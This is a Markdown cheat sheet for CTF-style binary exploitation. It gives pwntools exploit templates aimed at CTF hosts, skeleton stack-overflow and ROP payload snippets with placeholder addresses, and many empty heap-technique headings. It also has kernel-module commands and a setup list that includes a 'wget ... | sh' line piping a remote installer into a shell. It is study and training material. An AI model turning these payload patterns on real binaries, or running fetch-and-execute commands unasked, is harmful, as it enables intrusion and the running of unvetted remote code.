 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation

* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)
* [Misc](#misc)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>
	
	#!/usr/bin/env python
	# -*- coding: utf-8 -*- 
	
	from pwn import *

	BINARY = './library_in_c'
	LIBC = './libc.so.6'
	HOST = 'shell.actf.co'
	PORT = 20201
	
	elf = ELF(BINARY)
	#libc = ELF('./libc.so.6')

	context.terminal = ['tmux', 'split-w']
	
	#printf = elf.got['printf']		

	def get_base_address(proc):
		return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

	def debug(breakpoints):
		script = ""
		for bp in breakpoints:
			script += "b *0x%x\n"%(PIE+bp)
		gdb.attach(process(BINARY), gdbscript=script)

	def start():
	    if not args.REMOTE:
		print("LOCAL PROCESS")
		return process(BINARY, env={"LD_PRELOAD":LIBC})
	    else:
		print("REMOTE PROCESS")
		return remote(HOST, PORT)


	p = start()
	if args.GDB:
	    gdb.attach(p, 'b main')

	p.interactive()


<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	
	z.interact

<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>
	
	# List kernel modules
	lsmod
	
	# Insert LKM
	insmod <filename> param1=1 array_param=1,2
	modprobe <module>
	
	# Remove LKM
	rmmod <module> 
	rmmod -f <module> #Force remove
	modprobe -r <module>
	
	# Debugging symbols
	nm <module>

	# View printk output
	dmesg
	
	# View inode
	ls -i <file>
	stat <file>


<h2 id="misc">Misc</h2>

	# Debug Macho binaries (by mgrube)
	codesign --remove-signature app.app
	xattr -r -d app.app

	# Quick pwn setup

	apt update
	sudo apt install wget
	apt install --assume-yes gdb
	wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
	apt install --assume-yes python
	apt install --assume-yes vim
	apt install --assume-yes python3-pip
	apt install --assume-yes python-pip
	apt install --assume-yes wget
	apt install --assume-yes net-tools
	apt install --assume-yes ruby
	apt install --assume-yes tmux
	pip install capstone
	pip install pwntools
	pip install ropgadget
	gem install one_gadget

	# gdb LD_PRELOAD 

	set exec-wrapper env 'LD_PRELOAD=./libc.so.6'
	set env LD_PRELOAD ./libc.so.6

	# Linux Dockers

	debian:latest
	pwndocker:latest
	glibc2.23-pwn:latest
	
	# When using old ubuntu versions

	gedit /etc/apt/sources.list
	deb http://old-releases.ubuntu.com/ubuntu karmic main restricted
	
